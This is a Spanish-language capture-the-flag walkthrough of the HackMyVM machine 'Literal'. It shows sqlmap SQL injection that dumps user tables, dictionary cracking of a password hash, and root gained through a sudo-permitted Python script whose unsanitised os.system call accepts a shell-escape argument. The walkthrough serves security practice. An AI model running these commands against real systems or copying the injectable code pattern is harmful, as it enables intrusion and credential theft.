








Pentesting & Ctf Pl4yer
HackMyVm - Literal
Autor: Lanz

Escaneo de puertos
❯ nmap -p- -T5 -v -n 192.168.1.14
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
Escaneo de servicios
❯ nmap -sVC -v -p 22,80 192.168.1.14
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 30ca559468338b5042f4c2b5139966fe (RSA)
| 256 2db05e6b96bd0be314fbe0d058845085 (ECDSA)
|_ 256 92d92a5d6f58db8556d60c9968b85964 (ED25519)
80/tcp open http Apache httpd 2.4.41
|_http-title: Did not follow redirect to http://blog.literal.hmv
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: blog.literal.hmv; OS: Linux; CPE: cpe:/o:linux:linux_kernel
HTTP
Si intento ir a la web me redirige automáticamente al subdominio blog.literal.hmv .

Añado el subdominio encontrado al archivo hosts y me conecto de nuevo a la web.
Me voy a login, creo un usuario y me logueo.

Hago click en Check what projects I'm working on y veo una lista.

Después de interceptar la petición con burpsuite la guardo a un fichero con copy to file y le doy el nombre de burp.

Ahora utilizo el fichero que he guardado anteriormente para usarlo con sqlmap y buscar el nombre de la base de datos.
❯ sqlmap -r burp --level 5 --risk 3 --dbs
[20:27:45] [INFO] fetching database names
available databases [4]:
[*] blog
[*] information_schema
[*] mysql
[*] performance_schema
Buscando las tablas de blog.
❯ sqlmap -r burp --level 5 --risk 3 -D blog --tables
[20:31:17] [INFO] fetching tables for database: 'blog'
Database: blog
[2 tables]
+----------+
| projects |
| users |
+----------+
Dumpeando users.
❯ sqlmap -r burp --level 5 --risk 3 -D blog -T users --dump

Encuentro dos usuarios con un nuevo subdominio.
| 8 | walter | walter@forumtesting.literal.hmv
| 11 | r1ch4rd | r1ch4rd@forumtesting.literal.hmv
Añado el subdominio a mi archivo hosts y me conecto a el.

Le doy click a categories y veo el parámetro category_id=2 .

Encuentro la base de datos forumtesting .
sqlmap -u "http://forumtesting.literal.hmv/category.php?category_id=2" --level 5 --risk 3 --dbs
[21:01:30] [INFO] retrieved: forumtesting
available databases [3]:
[*] forumtesting
[*] information_schema
[*] performance_schema
Obtengo las tablas.
❯ sqlmap -u "http://forumtesting.literal.hmv/category.php?category_id=2" --level 5 --risk 3 -D forumtesting --tables
[21:04:36] [INFO] retrieved: forum_users
Database: forumtesting
[5 tables]
+----------------+
| forum_category |
| forum_owner |
| forum_posts |
| forum_topics |
| forum_users |
+----------------+
Dumpeo forum_owner y obtengo un hash para carlos.
❯ sqlmap -u "http://forumtesting.literal.hmv/category.php?category_id=2" --level 5 --risk 3 -D forumtesting -T forum_owner --dump
[21:07:43] [INFO] retrieved: 2022-02-12
[21:07:43] [INFO] retrieved: carlos@forumtesting.literal.htb
[21:07:44] [INFO] retrieved: 1
[21:07:44] [INFO] retrieved: 6705fe62010679f04257358241792b41acba4ea896178a40eb63c743f5317a09faefa2e056486d55e9c05f851b222e6e7c5c1bd22af135157aa9b02201cf4e99
[21:07:49] [INFO] retrieved: carlos
[21:07:49] [INFO] recognized possible password hashes in column 'password'
Para romper el hash usaré el mismo sqlmap ya que nos ofrece esa opción y es bastante intuitivo.
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[21:14:27] [INFO] writing hashes to a temporary file '/tmp/sqlmaps0oti3_q65473/sqlmaphashes-9njg5mis.txt'
do you want to crack them via a dictionary-based attack? [Y/n/q] y
[21:14:28] [INFO] using hash method 'sha512_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 2
what's the custom dictionary's location?
> /usr/share/wordlists/rockyou.txt
[21:14:46] [INFO] using custom dictionary
do you want to use common password suffixes? (slow!) [y/N] n
[21:14:51] [INFO] starting dictionary-based cracking (sha512_generic_passwd)
[21:14:51] [INFO] starting 4 processes
[21:15:13] [INFO] cracked password 'forum******' for user 'carlos'
Me conecto al sistema y verifico que permisos tengo con sudo.
carlos@literal:~$ sudo -l
Matching Defaults entries for carlos on literal:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User carlos may run the following commands on literal:
(root) NOPASSWD: /opt/my_things/blog/update_project_status.py *
Archivo update_project_status.py .
#!/usr/bin/python3
# Learning python3 to update my project status
## (mental note: This is important, so administrator is my safe to avoid upgrading records by mistake) :P
'''
References:
* MySQL commands in Linux: https://www.shellhacks.com/mysql-run-query-bash-script-linux-command-line/
* Shell commands in Python: https://stackabuse.com/executing-shell-commands-with-python/
* Functions: https://www.tutorialspoint.com/python3/python_functions.htm
* Arguments: https://www.knowledgehut.com/blog/programming/sys-argv-python-examples
* Array validation: https://stackoverflow.com/questions/7571635/fastest-way-to-check-if-a-value-exists-in-a-list
* Valid if root is running the script: https://stackoverflow.com/questions/2806897/what-is-the-best-way-for-checking-if-the-user-of-a-script-has-root-like-privileg
'''
import os
import sys
from datetime import date
# Functions ------------------------------------------------.
def execute_query(sql):
os.system("mysql -u " + db_user + " -D " + db_name + " -e \"" + sql + "\"")
# Query all rows
def query_all():
sql = "SELECT * FROM projects;"
execute_query(sql)
# Query row by ID
def query_by_id(arg_project_id):
sql = "SELECT * FROM projects WHERE proid = " + arg_project_id + ";"
execute_query(sql)
# Update database
def update_status(enddate, arg_project_id, arg_project_status):
if enddate != 0:
sql = f"UPDATE projects SET prodateend = '" + str(enddate) + "', prostatus = '" + arg_project_status + "' WHERE proid = '" + arg_project_id + "';"
else:
sql = f"UPDATE projects SET prodateend = '2222-12-12', prostatus = '" + arg_project_status + "' WHERE proid = '" + arg_project_id + "';"
execute_query(sql)
# Main program
def main():
# Fast validation
try:
arg_project_id = sys.argv[1]
except:
arg_project_id = ""
try:
arg_project_status = sys.argv[2]
except:
arg_project_status = ""
if arg_project_id and arg_project_status: # To update
# Avoid update by error
if os.geteuid() == 0:
array_status = ["Done", "Doing", "To do"]
if arg_project_status in array_status:
print("[+] Before update project (" + arg_project_id + ")\n")
query_by_id(arg_project_id)
if arg_project_status == 'Done':
update_status(date.today(), arg_project_id, arg_project_status)
else:
update_status(0, arg_project_id, arg_project_status)
else:
print("Bro, avoid a fail: Done - Doing - To do")
exit(1)
print("\n[+] New status of project (" + arg_project_id + ")\n")
query_by_id(arg_project_id)
else:
print("Ejejeeey, avoid mistakes!")
exit(1)
elif arg_project_id:
query_by_id(arg_project_id)
else:
query_all()
# Variables ------------------------------------------------.
db_user = "carlos"
db_name = "blog"
# Main program
main()
Obtengo el root de la siguiente forma.
carlos@literal:~$ sudo /opt/my_things/blog/update_project_status.py '\! /bin/bash' 'To do'
[+] Before update project (\! /bin/bash)
root@literal:/home/carlos# id;hostname
uid=0(root) gid=0(root) groups=0(root)
literal
Y con esto resolvemos la máquina Literal del sr Lanz, un saludo!